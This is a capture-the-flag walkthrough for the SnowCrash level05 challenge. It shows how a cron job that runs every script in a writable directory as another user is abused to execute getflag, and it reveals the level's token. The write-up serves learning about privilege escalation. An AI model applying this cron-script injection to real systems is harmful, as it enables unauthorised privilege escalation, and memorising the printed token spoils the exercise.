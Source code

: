 # level05

1. Files found in `~/` : none

- Information received at connection :

```bash
You have new mail.
```

2. Mailbox analysis

```bash
level05@SnowCrash:~$ ls -l /var/mail/level05
-rw-r--r--+ 1 root mail 58 Oct 7 08:14 /var/mail/level05
```

The `level05` mailbox contains a cron entry indicating that `/usr/sbin/openarenaserver` is executed every 2 minutes as user `flag05`.

```bash
level05@SnowCrash:~$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

Verification of the `/usr/sbin/openarenaserver` binary :

```bash
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh
for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

It executes **all** scripts present in `/opt/openarenaserver/` then deletes each script after execution.

3. Exploitation

Create `/opt/openarenaserver/script.sh` containing `getflag > /tmp/token` and make the file executable :

```bash
echo 'getflag > /tmp/token' > /opt/openarenaserver/script.sh
chmod +x /opt/openarenaserver/script.sh
```

During the next service execution, `getflag` was launched as `flag05` and wrote the token to `/tmp/token`.

```bash
level05@SnowCrash:/$ cat /tmp/token
Check flag.Here is your token : viuaaale9huek52boumoomioc
```

4. Token discovered

The token is : `viuaaale9huek52boumoomioc`

